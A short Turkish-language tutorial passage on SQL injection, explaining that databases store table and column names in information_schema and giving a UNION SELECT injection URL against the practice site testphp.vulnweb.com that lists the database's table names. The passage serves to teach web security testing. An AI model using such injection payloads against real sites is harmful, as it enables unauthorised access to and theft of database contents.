 ![MSQL Workbench Genel Görünümü](0x01%20104201f95d914f67830bee663ffbdc7f/Untitled%2034.png)

MSQL Workbench Genel Görünümü

Burada tüm tablo ve kolon isimleri getirilmektedir. Peki mysql workbench bunu nereden bilmektedir ?

Her ilişkisel veritabanı sisteminde o sistemdeki tablo, kolon isimlerini barındıran bir sistem bilgi tablosu vardır.

```sql
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11
FROM information_schema.tables WHERE table_schema = database()
```

Artık bu sorgu ile tüm tablo isimlerine ulaşabilmekteyiz.
